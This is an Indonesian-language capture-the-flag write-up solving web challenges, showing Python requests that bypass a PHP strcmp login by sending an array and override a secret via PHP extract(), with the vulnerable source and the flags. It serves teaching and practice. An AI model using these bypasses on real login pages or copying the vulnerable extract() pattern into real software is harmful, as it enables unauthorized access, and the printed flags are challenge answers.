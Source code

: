 Web Exploitation
================

<!--ts-->
  * [Strcmp (5)](#strcmp)
  * [Guess The Secret (25)](#guess-the-secret)
  * [Another Secret (25)](#another-secret)
  * [Bank of Ctfs (5)](#bank-of-ctfs)
<!--te-->

Strcmp(5)
=========

```409 Solved
Author: abdilahrf  
Point: 5   Difficulties:

Strcmp is used to validate the password that user inputted and check is that a valid password if the password is not valid you can't get the flag! Find a way to get the flag http://chall.ctfs.me:8002/strcmp/
```

Tampilan dari alamat berikut merupakan halaman login yang memasukan username dan password sebagai input, dalam pengerjaan digunakan python interpreter dan library request.
Memasukan username dan password secara acak 

```python
In [1]: import requests
In [2]: r = requests.Session()
In [3]: a = r.post("http://chall.ctfs.me:8002/strcmp/", data={"username":"A", "pas
   ...: sword":"A", "submit":"Login"})
In [4]: a.text
Out[4]: u'<div style="width:100%;color:#fff;"><b style="color:#000;">Login page</b> guest:guest</div>\n<form method="post" action="" >\n<input type="text" name="username" />\n<input type="password" name="password" />\n<input type="submit" name="submit" value="Login" />\n</form>\n'

```

melakukan request kembali dengan username guest dan password guest

```python
In [5]: a = r.post("http://chall.ctfs.me:8002/strcmp/", data={"username":"guest", "pas
   ...: sword":"guest", "submit":"Login"})
In [6]: a.text
Out[6]:  u'Welcome Guest, to get flag you must login as admin<div style="width:100%;color:#fff;"><b style="color:#000;">Login page</b> guest:guest</div>\n<form method="post" action="" >\n<input type="text" name="username" />\n<input type="password" name="password" />\n<input type="submit" name="submit" value="Login" />\n</form>\n'

```

Seperti pada nama soal kemungkinan authentikasi yang digunakan pada password adalah strcmp, vulnerability pada strcmp adalah apabila string dicompare dengan tipe lain seperti array misalnya, maka untuk mengerjakan soal ini digunakan request seperti berikut

```python
In [7]: a = r.post("http://chall.ctfs.me:8002/strcmp/", data={"username":"admin", "pas
   ...: sword[]":"A", "submit":"Login"})
In [8]: a.text
Out[8]:  u'flag : CTFS{strcmp_is_a_nightmare}<div style="width:100%;color:#fff;"><b style="color:#000;">Login page</b> guest:guest</div>\n<form method="post" action="" >\n<input type="text" name="username" />\n<input type="password" name="password" />\n<input type="submit" name="submit" value="Login" />\n</form>\n'

```
Flag :

```bash
CTFS{strcmp_is_a_nightmare}
```

Guess The Secret(25)
====================
```182 Solved
Author: abdilahrf  
Point: 25   Difficulties:

Can you guess the value from php rand() function ? if you can, let's grab the flag http://chall.ctfs.me:8002/guess-the-secret
```
Pada tampilan halaman jika dilakukan page source terlihat komentar debug=false, mengubah menjadi dengan true dengan menambahkan parameter debug=true pada url maka akan muncul source code halaman tersebut

```php
<?php
include 'flag.php';

if(isset($_GET['debug']) == "true"){
    show_source(__FILE__);  
}

if($_SERVER['REQUEST_METHOD'] == "POST"){
    $secretKey = rand();
    extract($_POST);
    
    if($password == $secretKey){
        echo '<br>'.FLAG;   
    }else{
        echo "<br>not match";   
    }    
}
?>


<form method="POST"  action="<?=$_SERVER['PHP_SELF']?>" >
    <input type="text" name="password">
    <input type="submit" name="sb">
</form>
<!-- ?debug=false -->
```
Terdapat statement extact pada source code yang berfungsi untuk menjadikan parameter passing menjadi variabel pada php, pada source code ini paramter yang digunakan adalah password, penggunakan extract pada source code ini adalah penggunakan extract sesudah deklarasi variabel secretKey dimana maka variabel secretKey dapat di overide dengan paramter secretKey yang dikirim oleh user.
Digunakan python dan library requests untuk menyelesaikan soal ini.

'''python
In [10]: requests.post("http://chall.ctfs.me:8002/guess-the-secret/", data={"password":"A","secretKey":"A"}).text
Out[10]: u'<br>CTFS{dont_use_extract_again}\n\n<form method="POST"  action="/guess-the-secret/index.php" >\n    <input type="text" name="password">\n    <input type="submit" name="sb">\n</form>\n<!-- ?debug=false -->'
'''
